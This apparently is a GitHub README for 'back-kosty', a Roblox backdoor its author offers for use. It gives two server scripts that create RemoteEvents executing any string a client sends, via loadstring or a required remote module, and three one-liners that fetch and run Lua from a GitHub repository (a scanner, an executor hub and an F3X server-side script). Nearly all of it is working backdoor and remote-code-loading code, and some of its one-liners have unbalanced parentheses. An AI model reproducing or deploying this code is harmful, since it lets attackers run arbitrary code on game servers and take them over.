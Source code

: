 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

# stape 2

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

# after that your game will be infected by back-kosty
# loadstring 1 (SERVERSIDE)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/scanner.lua")()
# loadstring 2 (LOCAL)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/executor/executorandhub.lua", true))()
# loadstring 3 (SERVERSIDE IN F3X)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/server-side/project%20360%20ONLY%20F3X%20GAMES.lua", true)()
